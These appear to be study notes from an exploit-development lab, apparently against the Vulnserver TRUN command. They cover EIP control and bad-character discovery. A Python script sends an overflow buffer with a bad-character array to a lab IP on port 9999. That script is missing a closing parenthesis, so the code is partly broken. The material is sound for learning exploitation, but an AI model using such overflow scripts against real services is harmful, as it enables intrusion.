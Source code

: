 - in immunity we see EIP is 42424242, which is 4 characters of what we sent - now we can control the EIP >> time for housecleaning

### Finding bad characters
use google to find bad character generator
https://github.com/cytopia/badchars
can copy python values directly from github
```python
badchars = (
  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)
```
- edit 2.py for bad chars (can paste from github)
```python
#!/usr/bin/python

import sys, socket
badchars = (
  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

shellcode = "A" * 2003 + "B" * 4 + badchars

try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('192.168.1.35',9999))
	s.send(('TRUN /.:/' + shellcode))
	s.close()
except:
	print "Error connecting to server"
	sys.exit()
```
- run in kali
```bash
gedit 2.py #save script with pattern_Create value 
```
